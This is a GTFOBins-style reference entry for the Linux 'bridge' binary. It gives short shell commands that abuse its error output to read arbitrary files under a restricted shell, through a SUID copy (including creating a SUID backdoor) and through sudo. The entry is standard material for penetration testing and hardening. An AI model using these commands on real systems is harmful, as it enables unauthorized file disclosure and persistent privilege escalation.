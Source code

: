 # GTFOBin: bridge

Outputs the first line of the file (until the first whitespace) inside an error message to stdandard error.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
bridge -b "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which bridge) .

LFILE=file_to_read
./bridge -b "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo bridge -b "$LFILE"
```